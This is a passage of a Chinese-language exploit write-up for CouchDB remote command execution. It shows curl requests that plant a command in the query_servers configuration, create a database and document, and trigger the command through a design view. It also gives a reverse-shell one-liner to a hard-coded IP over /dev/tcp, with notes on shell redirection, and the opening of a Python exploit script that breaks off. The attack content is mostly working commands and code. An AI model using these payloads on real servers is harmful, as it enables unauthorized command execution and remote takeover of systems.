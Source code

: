 其中 co0ontty:password为用户名和密码

第一个请求是添加一个名字为`cmd`的`query_servers`，其中`id >/tmp/success`为后面要执行的命令

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

#### Version 2.1.0

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

第一个请求修改为：

```textile
curl -X PUT http://co0ontty:password@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

第二、三个请求不变：

```textile
curl -X PUT 'http://co0ontty:password@your-ip:5984/vultest'

curl -X PUT 'http://co0ontty:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

由于Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

第四个请求修改为：

```textile
curl -X PUT http://co0ontty:password@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加`_view`的同时即触发了`query_servers`中的命令。

也可以使用python将这一过程连贯运行，并得到反弹shell的效果

补充：

linux环境下可以通过下面这个命令实现反弹shell

```textile
sh -i >& /dev/tcp/47.102.143.147/222 0>&1
```

/dev/[tcp|upd]/host/port是Linux设备里面比较特殊的文件，读取或写入相当于建立socket调用 
由于其特殊性，命令执行后依旧无法找到/dev/tcp目录更不要说下面的文件了  
注意，这里"&"在Linux shell中表示后台运行，当然这里0>&1不是这样,对于&1更准确的说应该是文件描述符1,而1一般代表的就是STDOUT_FILENO

2>&1形式用于重定向，2>表示错误重定向，&1表示标准输出；以ls >/dev/null 2>&1为例，2>&1是将标准出错重定向到标准输出，不过在这里又被重定向到了/dev/null这个无底洞里
这里有一个问题：为什么2>&1要写在后面，以command >file 2>&1为例，首先是command > file将标准输出重定向到file中， 2>&1 是标准错误拷贝了标准输出的行为，也就是同样被重定向到file中，最终结果就是标准输出和错误都被重定向到file中 
其实还有一个问题，既然2>表示错误重定向，那么0>表示什么呢？查阅资料发现在Linux下输入输出重定向有三个值，其中2已经说过是标准错误信息输出，那0则是标准输入，1则为标准输出了。说到这里，其实又引出了一个新的问题，我们知道<才是表示输入的，那为何这里却是如此形式，按说就应该是2了，或者说这里0就已经是输入了，然后直接使用>进行输出，不是很清楚请大牛指点啊

exp.py:

```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://47.102.143.147:5984'
command = rb"""sh -i >& /dev/tcp/47.102.143.147/222 0>&1"""
version = 2

session = requests.session()
session.headers = {
```